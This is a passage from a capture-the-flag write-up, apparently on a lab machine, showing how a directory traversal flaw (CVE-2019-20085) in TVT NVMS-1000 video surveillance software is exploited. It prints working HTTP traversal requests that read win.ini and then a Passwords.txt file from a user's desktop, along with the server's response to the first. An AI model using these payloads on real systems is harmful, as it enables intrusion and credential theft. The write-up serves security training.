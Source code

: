 `NVMS-1000` is a software used for network video surveillance.

Since we knew from our `FTP` exploration that default credentials wouldn't work, we searched for any known vulnerabilities. We stumbled upon a `directory traversal` vulnerability known as `CVE-2019-20085`, which allows remote attackers to access sensitive files on the server.

We confirmed that this instance of `TVT NVMS-1000` was vulnerable to `directory traversal` by testing a sample exploit:

```
GET /../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 200 OK
Content-type: 
Content-Length: 92
Connection: close
AuthInfo: 

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

This request returned contents of `windows/win.ini` from the server, confirming the presence of the vulnerability.

# LOW PRIVILEGED SHELL

We wanted to access the contents of the `Passwords.txt` file located on `Nathan`'s desktop, as we learned from our `FTP` exploration.

```
GET /../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```
